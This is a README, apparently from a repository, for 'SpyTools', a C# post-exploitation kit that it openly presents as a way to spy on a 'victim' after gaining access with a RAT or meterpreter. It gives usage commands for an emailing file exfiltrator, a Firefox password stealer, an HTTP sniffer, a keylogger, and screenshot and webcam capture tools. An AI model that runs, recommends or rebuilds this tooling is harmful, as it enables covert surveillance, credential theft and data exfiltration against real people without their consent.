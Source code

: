 # SpyTools 1.0
SpyTools is a collection of little tools wirtten in C# .Net 2.0, usefull to spy a vectim. If you got remote access, with a RAT or meterpreter, you can upload this tools to the victim machine, and run them, or persist them using Porwersploit. It is distributed under the GNU GPLv3 license.
## List of tools
### EmailSender
Get all files with some extensions in the current path, and send an email attaching them.
```
EmailSender.exe "server.com" "user@server.com" "password" "from@domain.com" "FromName" "to@domain.com" "Subject" "Body" 
"jpg,txt,png"
```
##```# FoxyStealer
Copy to the current path, all firefox database and conifg files, for each profile. You can get the history or the passwords saved form them.
```
FoxyStealer.exe
```
### HTTPSniffer
Start to capture all HTTP traffic, and flush them into a txt file.
```
HTTPSniffer.exe ["OutputFileName" NumericIntervalToFlushTrafficToDisk]
```
### Keylogger
Start to capture all keys, and flush them into a file.
```
Keylogger.exe ["OutputFileName" NumericIntervalToFlushKeysToDisk]
```
### Printscreen
Take a screenshot.
```
Printscreen.exe ["OutputFileName"]
```
### WebcamSnap
Take a picture from the webcam.
```
WebcamSnap.exe ["OutputFileName"]
```
